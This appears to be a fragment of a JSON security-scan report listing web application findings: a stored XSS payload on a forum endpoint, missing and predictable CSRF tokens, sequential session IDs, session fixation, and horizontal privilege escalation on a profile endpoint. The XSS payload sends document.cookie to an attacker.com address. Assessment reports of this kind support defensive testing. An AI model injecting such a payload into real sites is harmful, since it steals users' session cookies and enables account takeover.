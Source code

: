 ```json
          "endpoint": "/api/forum/post",
          "payload": "<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>",
          "retrieved": true
        }
      ]
    }
  },
  "csrf": {
    "vulnerability": {
      "vulnerable_endpoints": ["/api/user/change-password"],
      "csrf_tokens_missing": ["/api/user/change-password"],
      "csrf_tokens_weak": []
    },
    "token_validation": {
      "weak_validation": ["predictable_token"],
      "predictable_tokens": ["1234567890"],
      "reusable_tokens": []
    }
  },
  "session_hijacking": {
    "prediction": {
      "predictable_sessions": [],
      "sequential_sessions": [
        {
          "current": "session_001",
          "next": "session_002"
        }
      ],
      "weak_session_ids": ["abc123"]
    },
    "fixation": {
      "fixation_vulnerable": true,
      "session_regeneration": false
    },
    "timeout": {
      "timeout_vulnerable": false,
      "session_duration": "Normal"
    }
  },
  "brute_force": {
    "login": {
      "rate_limiting": true,
      "account_lockout": false,
      "successful_attempts": [],
      "failed_attempts": 10
    },
    "api": {
      "rate_limiting": true,
      "endpoints_vulnerable": []
    }
  },
  "privilege_escalation": {
    "horizontal": {
      "vulnerable_endpoints": ["/api/user/profile/1"],
      "data_access_violations": ["/api/user/profile/1"],
      "user_switching": false
    },
    "vertical": {
      "admin_access_gained": false,
      "vulnerable_endpoints": [],
      "role_manipulation": false
    }
  },
```